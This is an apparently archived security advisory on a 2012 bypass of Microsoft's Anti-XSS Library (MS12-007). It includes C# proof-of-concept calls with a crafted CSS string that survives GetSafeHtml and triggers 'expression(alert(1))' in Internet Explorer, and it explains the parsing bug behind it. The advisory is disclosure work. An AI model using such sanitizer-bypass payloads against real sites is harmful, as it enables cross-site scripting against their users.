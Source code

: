 ```yaml
---
layout: vuln
credit:
    - adico
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2012-07-10' 
alephid: ALEPH-2012004
date: '2012-01-19'
title: 'Microsoft Anti-XSS Library Bypass'
severity: moderate
product:
    - Microsoft Anti-XSS Library

references:
    - src: MS12-007
      url: http://technet.microsoft.com/en-us/security/bulletin/ms12-007
---
```

Microsoft Anti-XSS Library 3.0 and 4.0 are vulnerable to an attack in which an attacker is able to create a specially formed CSS, that after passing through the GetSafeHTML or GetSafeHTMLFragment methods, contains an expression that triggers a JavaScript call in Internet Explorer.

The following ASP.NET code demonstrates the vulnerability:

```csharp
string data = Microsoft.Security.Application.Sanitizer.GetSafeHtml("<html>a<style><!--div{font-family:Foo,Bar\\,'a\\a';font-family:';color:expression(alert(1));y'}--></style><div>b</div></html>");

string data = Microsoft.Security.Application.Sanitizer.GetSafeHtmlFragment("<div style=\"font-family:Foo,Bar\\,'a\\a';font-family:';color:expression(alert(1));y'\">aaa</div>");
```

Explanation:
The string value can be broken down as follows:
```css
div{
  font-family:Foo,Bar\,'a\a';
  font-family:';color:expression(alert(1));y'
}
```
A bug in the Anti-XSS library causes the closing apostrophe in the first CSS rule to be dropped. Because of the string not being properly terminated, Internet Explorer now renders this CSS in a different way, which triggers a javascript call:

```css
div{

font-family:Foo,Bar\,'a\a;font-family:';
color:expression(alert(1));

y'

}
```
Due to this weakness, every application that relies on either GetSafeHTML or GetSafeHtmlFragment to sanitize user supplied data is vulnerable to XSS.
